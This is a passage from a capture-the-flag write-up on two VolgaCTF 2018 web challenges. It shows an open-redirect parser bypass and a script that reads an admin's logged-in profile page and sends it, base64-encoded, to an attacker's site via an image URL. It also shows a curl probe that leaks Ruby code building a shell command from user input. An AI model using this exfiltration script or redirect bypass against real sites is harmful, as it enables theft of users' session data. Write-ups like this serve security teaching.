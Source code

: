 We also note that the header `Access-Control-Allow-Credentials` is set, which
is obvious a challenge about XSS attack.

Then here is the key: If you're not logged in, access `profile.php` will
redirect to `index.php?redir=profile.php`. It seems that we can abuse the
redirection parameter.

After a few tries, we found the url parser is vulnerable.
`/index.php?redir=http:http://1.2.3.4/` will bypass the parser validation,
redirecting to `http://1.2.3.4/`.

Acctually, there are a number of ways to bypass the parser. Either
[manipulating the host
parameter](https://blog.harold.kim/2018/03/volgactf-2018-lazy-admin-writeup)
(by @stypr) or using
[space](https://gist.github.com/pich4ya/17dd5ef496c8fb11b79f7e7ea40d601f) (by
pich4ya) can bypass the check.

So the rest is easy. We create a page to steal the page content/cookies, and
send the redirection link to admin. If the bot allows cross domain requests,
we can steal the page content!

```htmlmixed=  
  
<script>  
var xhr = new XMLHttpRequest();  
xhr.withCredentials = true;  
xhr.open('GET', 'http://lazy-admin.quals.2018.volgactf.ru/profile.php',
false);  
xhr.send(null);  
var flag = btoa(xhr.responseText);  
document.getElementById("image").src = "http://mywebsite.com/?a="+flag;  
</script>  
```

Acctually it works. We just decode it and get the flag. It seems that the bot
is using phantomjs with `-web-security=false`, which disables cross domain
XHR.

I spent lots of time on trying to bypass same origin policy, but I don't know
they disable the feature. Next time I'll remember just give it a try first!

### SEO kings (solved by sasdf & bookgin, written by bookgin)

In the challenge, there is only one page with a form. We first manipulate some
parameters to see if injection is possible. We accidently found a error page
with lots of useful information by trying sending an array `site[]=`.

```shell  
curl 'http://seo-kings.quals.2018.volgactf.ru:8080/' -A "Mozilla" --data
'site[]=asd'  
```

So we have part of the ruby source code:

```ruby  
def runAdmin(site)  
pid = Process.spawn("phantomjs --web-security=no bot.js '" +  URI.escape(site)
+ "'")  
begin  
   Timeout.timeout(1) do  
   Process.wait(pid)  
 end  
rescue Timeout::Error  
   Process.kill('TERM', pid)  
end  
```
